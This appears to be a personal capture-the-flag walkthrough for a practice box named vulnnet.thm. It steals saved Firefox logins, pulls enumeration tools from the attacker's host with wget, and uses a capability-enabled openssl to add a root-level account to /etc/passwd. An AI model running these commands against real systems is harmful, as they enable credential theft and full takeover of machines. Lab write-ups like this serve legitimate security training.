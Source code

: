 [[Shell]]

==Read from .mozilla==
```bash
cd .mozilla/firefox/2fjnrwth.default-release
cat logins.*
```

> [!WARNING] Run on local system kali
> *Google search for: firefox decrypt logins.json*
> ```bash
git clone https://github.com/unode/firefox_decrypt.git
cd firefox_decrypt
ip a
python3 -m http.server 80

```bash
cd /tmp
wget 10.11.45.32/firefox_decrypt.py
```
*Zip the file .mozilla to debug it on the local system*
```bash
zip moz.zip /home/system/.mozilla -r
mv moz.zip .
python3 -m http.server 8080
```

> [!Warning] Run on local system kali
> Debug python3 script
> ```bash
wget IP:8080/moz.zip
unzip moz.zip
cd /home/system/.mozilla/firefox
pwd (copy path)
python3 firefox_decrypt.py (pwd path)

*Get the credentials*

```bash
ssh system@vulnnet.thm password
sudo -l
```

> [!WARNING] Run on local system kali
> *linpease*
> ```bash
ip a
cd /www
python3 -m http.server 8080

```bash
wget IP:8080/linpeas.sh
./linpease.sh
```
Google search = openssl privilege escalation cap=ep

```bash
getcap -r / 2>/dev/null
```
[[GTFOBins]]
search [[openssl]]

LFILE=file_to_write
```bash
echo DATA | openssl enc -out "$LFILE"
```
```bash
echo 'test' | openssl enc -out /tmp/test
cat /tmp/test

cd /tmp
cp /etc/passwd .
```
Generate password with openssl
Google search = openssl "-1" create password
```bash
openssl passwd -1 pass
head -n 1 /etc/passwd
echo 'root2:$1$MdOU2LrC$MJ53Sq1G.IyQFGjLNZvEr.:0:0:root:/root:/bin/bash' >> passwd
cat passwd
which openssl
cat passwd | /home/system/Utils/openssl enc -out /etc/passwd
tail /etc/passwd
su root2
password:pass
whoami
cd /root
ls
```

